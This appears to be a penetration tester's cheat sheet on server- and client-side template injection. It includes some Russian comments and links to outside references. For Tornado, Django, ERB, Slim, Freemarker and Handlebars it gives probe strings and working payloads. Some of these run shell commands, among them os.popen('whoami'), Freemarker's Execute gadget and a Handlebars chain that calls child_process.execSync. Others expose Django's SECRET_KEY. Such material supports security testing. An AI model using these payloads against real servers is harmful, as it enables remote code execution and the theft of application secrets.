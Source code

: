 # SSTI/CSTI

Flask & Jinja2 [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

Template Injection Workshop (по сути, примеры, как это работает в python, php, java,..): [https://gosecure.github.io/template-injection-workshop/#0](https://gosecure.github.io/template-injection-workshop/#0)

Норм описание для h1 для CSTI: [https://hackerone.com/reports/125027](https://hackerone.com/reports/125027)

## Python

### Tornado

Link: [https://www.tornadoweb.org/en/stable/](https://www.tornadoweb.org/en/stable/)

Basic:

```python
{{ 2*2 }}
{% raw %}
{% import subprocess %}
{% import os %}
{% endraw %}{{ os.popen("whoami").read() }}
```

### Django

#### Django Templates

Link:[ https://docs.djangoproject.com/en/4.1/topics/templates/](https://docs.djangoproject.com/en/4.1/topics/templates/)

Basic:

```python
{% raw %}
{% debug %}
{% endraw %}
{{ setting.SECRET_KEY }}
```

### Jinja2

Link: [https://jinja.palletsprojects.com/en/3.1.x/](https://jinja.palletsprojects.com/en/3.1.x/)

## Ruby

### ERB

Link: [https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html](https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html)

Basic:

```ruby
<%= 7 * 7 %>
```

### Slim

Link: [https://github.com/slim-template/slim](https://github.com/slim-template/slim)

Basic:

```ruby
#{ 7 * 7 }
```

## Java

### Freemarker

Link:[ https://try.freemarker.apache.org/](https://try.freemarker.apache.org/)

Basic:

```java
// Code Execution — id:
${"freemarker.template.utility.Execute"?new()("id")}
```

## JavaScript

### Handlebars

Link: [https://handlebarsjs.com/](https://handlebarsjs.com/)

Basic:

```javascript
${{7*7}} -> OK
${{7*'7'}} -> Empty
```

RCE (from [payload all the thing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars)):

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
